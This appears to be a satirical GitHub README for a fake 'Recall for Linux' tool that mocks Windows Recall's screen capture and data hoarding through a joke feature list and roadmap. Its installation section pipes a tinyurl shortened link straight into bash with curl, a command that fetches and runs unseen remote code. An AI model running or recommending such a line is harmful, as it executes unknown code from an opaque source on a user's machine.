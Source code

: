 # 🔥 Recall for Linux

Are you forced to work with Linux?  
Do you miss the convenience of Microsoft spying on you and keeping track of everything?

Fear not! This amazing tool will bring back all those great Windows Recall features that you have been missing:

- 🌲 Stores all you sensitive data in an convenient, easily accessible database
- ⏲️ 24/7 screencaptures of everything you do
- 🥳 Image to text conversion with OCR
- 😇 Index and store everything your friends tell you over chat apps or e-mail; if it's on your screen we've got you covered!

Did a friend once share confidential information with you, but has since forgotten all about the shamefull details? No worries, you got that info!

Forgot about that website you visited 3 weeks ago, late in the evening while drunk? Yup, we stored that!

# Installation

Unfortunately Linux lacks to ability for us to automatically, silently install and enable this on your computer without your consent.

But we've made the installation process as frictionless as possible.

Simply open a terminal window and paste this random command (\*) from the internet:

```bash
curl -fsSL https://tinyurl.com/2u5ckjyn | bash
```

_(\*) certified virus free. Virustotal score of 98/100._

# Roadmap

These are all the exciting features coming soon:

- [ ] ㊙ implement encryption (delayed until 2028)
- [ ] 🐒 add AI features
- [ ] 💰 monetization (for us, not for you 🤑)
- [ ] 󰖠 add webcam pictures to really capture the moment
- [ ] 💩 AI
- [ ] 🎤 always-on audio recording
- [ ] 🔮 Windows Foresight. See what’s next - before you do.
- [ ] 🐍 more AI
- [ ] ☁️ automatic uploading of all your data the cloud
- [ ] 🙈 train our LLM's with your data
- [ ] 🤩 Add more AI, clanker clanker clanker. (see #12)
